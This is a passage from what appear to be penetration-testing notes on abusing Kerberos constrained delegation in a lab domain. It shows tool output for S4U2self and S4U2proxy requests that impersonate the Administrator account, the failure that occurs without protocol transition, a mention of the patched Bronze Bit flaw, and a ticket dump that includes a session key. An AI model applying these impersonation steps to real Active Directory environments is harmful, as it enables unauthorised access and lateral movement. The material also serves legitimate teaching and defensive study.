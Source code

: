 ```powershell
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     01/24/2025 14:21:18   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/24/2025 14:18:02   System Volume Information
          dir     01/24/2025 14:17:49   Users
          dir     01/24/2025 13:34:02   Windows
 12kb     fil     02/20/2025 08:50:25   DumpStack.log.tmp
 1gb      fil     02/20/2025 08:50:25   pagefile.sys
```

### Without protocol transition

The computer's TGT cannot be used to obtain a forwardable service ticket via S4U2self when protocol transition is not enabled.  The S4U2self will still return a ticket but the forwardable flag will not be set, and any attempt to use it with S4U2proxy will fail.

```powershell
[*] Building S4U2self request for: 'LON-WS-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF8[...snip...]MtMSQ=
```

![[Pasted image 20250721105745.png]]

```powershell
[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION
```

> There was a vulnerability dubbed the '[Bronze Bit](https://www.netspi.com/blog/technical-blog/network-pentesting/cve-2020-17049-kerberos-bronze-bit-overview/)' which allowed an adversary to flip the forwardable bit in a ticket, magically making a non-forwardable ticket forwardable.  Unfortunately, this is now patched.

Instead, the adversary must obtain a service ticket that a user has requested to gain access to the front-end service. This means that they cannot freely impersonate any user, but are limited to the user(s) for whom service tickets are available. These service tickets can be used directly with S4U2proxy, to obtain valid service tickets to the target service, as these users.

In this example, we have an HTTP service ticket for _dyork@HTTP/lon-ws-1_.

```powershell
[*] Action: Describe Ticket

  ServiceName              :  HTTP/lon-ws-1
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  dyork (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  20/02/2025 18:58:24
  EndTime                  :  21/02/2025 04:57:43
  RenewTill                :  27/02/2025 18:57:43
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  ld5jNd1Dul9W0Dw6kVAQQBSnK72PdOhk9h3z97R0CJQ=
```
